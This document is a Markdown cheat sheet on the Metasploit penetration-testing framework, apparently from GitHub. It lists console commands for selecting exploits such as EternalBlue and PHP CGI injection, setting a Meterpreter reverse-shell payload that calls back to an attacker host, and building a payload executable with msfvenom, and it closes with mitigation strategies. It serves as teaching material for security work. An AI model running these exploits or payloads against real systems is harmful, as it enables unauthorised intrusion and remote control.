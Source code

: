 ## Overview
Metasploit is a comprehensive penetration testing framework that helps security professionals and ethical hackers identify, exploit, and validate vulnerabilities in systems and applications. It includes a collection of tools, exploits, payloads, and scanners designed to assist with security assessments, penetration testing, and vulnerability exploitation. Metasploit is a powerful tool for automating tasks such as exploit development, vulnerability scanning, and post-exploitation activities.

## Key Terminology
- **Exploit**: A piece of code or technique that takes advantage of a vulnerability in a system to perform an unauthorized action.
- **Payload**: Code that is executed after a successful exploit is triggered, often used to gain access to a compromised system.
- **Meterpreter**: A sophisticated payload that provides an interactive shell for post-exploitation activities, enabling further compromise and control of the target.
- **Module**: A functional unit in Metasploit, such as exploits, auxiliary tools, and post-exploitation techniques.
- **Post-Exploitation**: Activities performed after successfully exploiting a system, typically involving maintaining access, data exfiltration, and lateral movement within a network.

---

## Basic Metasploit Commands
### Starting Metasploit Console
```bash
msfconsole
````

Launches the Metasploit framework console, where you can interact with all available exploits, payloads, and modules.

### Search for Exploits

```bash
search exploit name
```

Searches for an exploit module within the Metasploit database. Replace `name` with the name or description of the exploit you're looking for.

### Using an Exploit

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Selects an exploit module (e.g., `ms17_010_eternalblue`) to use within the Metasploit console.

### Setting Exploit Parameters

```bash
set RHOSTS 192.168.1.10
```

Sets the target IP address or range (`RHOSTS`) for the selected exploit.

### Running the Exploit

```bash
exploit
```

Attempts to execute the exploit against the target system.

---

## Advanced Metasploit Techniques

### Choosing and Setting a Payload

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

Selects a payload (`meterpreter/reverse_tcp`) that will provide an interactive shell back to the attacker’s machine upon successful exploitation.

### Running a Reverse Shell

```bash
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Sets the attacker's IP address (`LHOST`) and port (`LPORT`) to receive a reverse connection from the target after successful exploitation.

### Using Meterpreter for Post-Exploitation

```bash
sessions -i 1
```

Interacts with an active Meterpreter session (`1` represents the session ID) to perform post-exploitation activities such as file access, privilege escalation, and command execution.

### Scanning for Vulnerabilities

```bash
auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run
```

Uses an auxiliary scanner module to perform a TCP port scan across the target subnet (`192.168.1.0/24`).

### Creating a Custom Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe > payload.exe
```

Generates a custom payload (`payload.exe`) for Windows that can be used for exploitation.

### Exploiting Web Applications

```bash
use exploit/unix/webapp/php_cgi_arg_injection
set RHOST 192.168.1.20
set TARGETURI /cgi-bin/php
exploit
```

Exploits a web application vulnerability (e.g., PHP CGI argument injection) on the target machine to gain access.

---

## Practical Use Cases

- **Penetration Testing**: Metasploit is commonly used by penetration testers to identify and exploit vulnerabilities in networks, servers, and web applications.
- **Security Research**: Security researchers use Metasploit to analyze exploits, develop new payloads, and study the behavior of vulnerabilities and exploits.
- **Red Teaming**: Metasploit is an essential tool for red teams to simulate realistic attacks against organizations, testing their defenses and response mechanisms.
- **Training and Education**: Metasploit is used in training environments to teach ethical hacking and penetration testing, providing hands-on experience with real-world exploits.

---

## Mitigation Strategies

- **Patch Management**: Regularly patch and update systems to close known vulnerabilities that can be exploited by Metasploit's exploits.
- **Network Segmentation**: Use network segmentation to isolate critical assets and reduce the potential impact of an attack.
- **Intrusion Detection and Prevention Systems (IDS/IPS)**: Deploy IDS/IPS to detect and block exploit attempts or suspicious activities associated with Metasploit's attacks.
- **Multi-Factor Authentication (MFA)**: Use MFA to secure sensitive systems and services, making it more difficult for attackers to maintain access post-exploitation.
- **Least Privilege Principle**: Apply the principle of least privilege to restrict access to critical systems and prevent attackers from escalating privileges or moving laterally after a successful exploit.

---

## References

- [Metasploit Official Website](https://www.metasploit.com/)
- [Metasploit GitHub Repository](https://github.com/rapid7/metasploit-framework)
- [Metasploit Documentation](https://docs.metasploit.com/)

